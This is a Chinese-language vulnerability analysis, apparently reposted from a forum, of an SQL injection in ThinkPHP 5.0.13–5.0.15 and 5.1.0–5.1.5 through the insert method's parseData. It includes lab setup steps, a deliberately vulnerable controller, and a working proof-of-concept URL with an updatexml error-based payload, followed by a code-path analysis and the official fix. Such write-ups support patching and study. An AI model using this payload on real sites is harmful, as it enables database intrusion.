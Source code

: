 # 5.0.13 <= Thinkphp <= 5.0.15 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3162](https://www.zhihuifly.com/t/topic/3162)

# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert** 方法注入）。本次漏洞存在于 **Builder** 类的 **parseData** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。

## 三、复现过程

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->insert([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **application/database.php** 文件中配置数据库相关信息，并开启 **application/config.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
); 
```

### poc

```
http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](img/037ce33eedef07ea33ba24661df49e12.png)

### 漏洞分析

![2.png](img/a8726ae41d82d0040db0dfba745fa726.png)

首先在官方发布的 **5.0.16** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](img/6e61d6ac1065c908972ec2997bb1a021.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，代码如下：

![4.png](img/a7ba6b5a5c541fd1ef80d37df51239b5.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的 **$this->builder->insert()** 最终调用的是 **Builder** 类的 **insert** 方法。在 **insert** 方法中，我们看到其调用 **parseData** 方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据 **$val** 进行了拼接返回。我们的恶意数据存储在 **$val[1]** 中，虽经过了 **parseKey** 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](img/4663617b6d170576a2db0c90ee9e6917.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的 **insert** 方法，直接通过替换字符串的方式，将 **$data** 填充到 **SQL** 语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](img/f02df8f90e0a4ce8504b21e83c006457.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch** 结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察 **ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec** 进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP** 内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格** ，这也是为什么 **ThinkPHP** 官方没有对 **exp** 的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](img/82bafba85780bf87311d9cf36d164555.png)

### 漏洞修复

![8.png](img/7124cc7f69d4b82df0a00d676a3728c6.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](img/c2ccbf2fb0267ed7c940515c7a7aecf8.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln